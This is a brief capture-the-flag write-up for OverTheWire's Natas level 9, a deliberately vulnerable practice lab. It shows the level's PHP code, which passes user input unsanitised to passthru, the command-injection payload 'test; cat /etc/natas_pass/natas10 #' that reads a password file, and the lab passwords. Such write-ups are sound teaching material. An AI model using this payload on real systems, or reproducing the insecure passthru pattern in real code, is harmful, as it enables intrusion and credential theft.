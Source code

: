 # Natas Level 9 → Level 10
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas9`
- **Password:** `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`

## Connection
Level url: [http://natas9.natas.labs.overthewire.org/](http://natas9.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is a `Search bar` so we have to do something with it to get the password. Let's `View sourcecode`
3. Step 3 - There is a PHP code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
**So, it's using our input to get data in the `dictionary.txt` file. From there we absolutely can do some `command injeciton` to get the password.**

4. Step 4 - Add `test; cat /etc/natas_pass/natas10 #` to get the password.
- `;`: to end the first command and run the second.
- `#`: to ignore any code behind the `cat`.
5. Step 5 - Take the password to the next level.

## Next Level Password
`t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`
